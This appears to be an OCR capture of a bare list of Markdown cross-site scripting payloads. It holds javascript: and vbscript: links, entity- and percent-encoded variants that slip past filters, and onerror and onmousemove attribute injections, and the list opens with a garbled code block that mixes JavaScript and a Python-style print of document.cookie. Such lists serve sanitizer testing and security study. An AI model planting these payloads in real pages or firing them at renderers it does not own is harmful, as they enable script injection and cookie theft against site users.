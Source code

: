 ```.py "onmousemove='alert("XSS")'\\
print(document.cookie)
```

[a](javascript:confirm(1))

[a](javascript://www.test.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a]: (javascript:prompt(1))

[a]:(?javascript:alert(1))    

[XSS](j    a   v   a   s   c   r   i   p   t:alert(1))

[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


[XSS](�javascript:alert(document.domain&#41;)


![Escape SRC - onerror]("onerror="alert('ImageOnError'))

link: <a href="https://google.com" title="title">xss &lt;img onerror=alert(1) src=x></a>

